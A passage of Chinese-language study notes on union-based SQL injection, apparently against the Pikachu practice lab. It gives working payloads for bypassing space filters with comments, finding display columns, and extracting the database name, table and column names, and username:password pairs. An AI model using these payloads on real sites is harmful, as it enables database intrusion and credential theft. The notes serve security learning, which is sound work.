 ​    *代入数字，由范围排序的报错来定位出具体列数 （二分法）

*注：空格被过滤，可以用/**/来过滤*

6.确定回显点

```
id=-1 union select 1,2 
```

select 后面的1，2意思是输出一个一行两列的数据；

union select 需要前后查询的字段数一致，通过order by来确定；

 **id=-1是因为大多网站只显示查询到的第一行数据，改为-1让默认语句查不到数据，进而输出自定义的select数据；**

7.获取数据库名

```
-1 union select 1,database()
```

8.获取表名

```
-1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='pikachu')
```

group_concat是将多个表名打包成一个数据来输出

9.获取列名

```
-1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users')
```

10.获取数据

```
-1 union select 1,(select group_concat(usermane,':',password separator '</br>') from users)
```

':'     分隔符

separator `'</br>'    `   每行数据换行符

#### 插件辅助

获取表名

Firofox——UNION BASED——Tables

获取字段……Cloumns

获取数据……Data

注意：post请求中，自动生成的查询语句会使用URL编码【+或%20】来替换空格进行串联，但是实际中post不用替换空格，需要手动改回空格。适用于get请求。

#### 思路

1.不用注释
